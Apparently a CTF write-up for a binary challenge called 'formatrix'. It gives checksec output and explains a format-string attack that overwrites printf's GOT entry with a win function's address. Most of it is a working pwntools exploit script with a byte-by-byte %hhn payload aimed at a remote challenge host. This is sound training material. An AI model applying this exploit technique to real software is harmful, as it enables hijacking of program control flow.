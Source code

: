 * checksec tedious: no PIE and no RELRO

  ```
  Arch:       amd64-64-little
  `RELRO:      No RELRO`
  Stack:      No canary found
  NX:         NX enabled
  `PIE:        No PIE (0x400000)`
  SHSTK:      Enabled
  IBT:        Enabled
  Stripped:   No
  ```


* overwrite printf addr to win addr by exploiting sprintf, since printf no vulns
* offset: 5th, but buffer shifts from rbp-0x200 -> rbp-0x600 between fgets and sprintf, 1024bytes, which means: the newer offset should be 5 + 1024/8 = 133.

* script

	```
	# printf: 0x403580
	# win: 0x4011d6
	
	
	from pwn import *
	
	context.arch = 'amd64'
	if args.REMOTE:
	    p = remote('6447.lol', 4001)
	    # p = process('./formatrix')
	else:
	    # p fget pws *loop+179
	    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
	    p = gdb.debug('./formatrix',
	                  gdbscript='''
	                  b *0x401319
	                  c
	                  ''')
	
	# win_addr = p64(0x4011d6)
	prinf_addr_str = "0x403580"
	prinf_int = int(prinf_addr_str, 16)
	
	# payload = b"%134$lln"
	# payload += p64(prinf_int)
	
	payload = (b"%211c...")  # 133th -> 214 -> 0xd6
	payload += (b"%143$hhn")  # 134th
	
	payload += (b"%55c....")  # 135th -> 0x11 + 256 -214 = 59 -> 0x11
	payload += (b"%144$hhn")  # 136
	
	payload += (b"%43c....")  # 137th -> 0x40 - 0x11 =  47
	payload += (b"%145$hhn")  # 138
	
	payload += (b"%189c...")  # 139th -> 0x00 + 256 - 0x40 = 192
	payload += (b"%146$hhn")  # 140th
	
	payload += (b"%147$hhn")  # 141th
	payload += (b"%148$hhn")  # 142th
	
	payload += p64(prinf_int)  # 143
	payload += p64(prinf_int + 1)  # 144
	payload += p64(prinf_int + 2)  # 145
	payload += p64(prinf_int + 3)  # 146
	payload += p64(prinf_int + 4)  # 147
	payload += p64(prinf_int + 5)  # 148
	
	print('payload:', payload)
	
	p.sendlineafter(b': ', payload)
	
	p.interactive()
	
	```
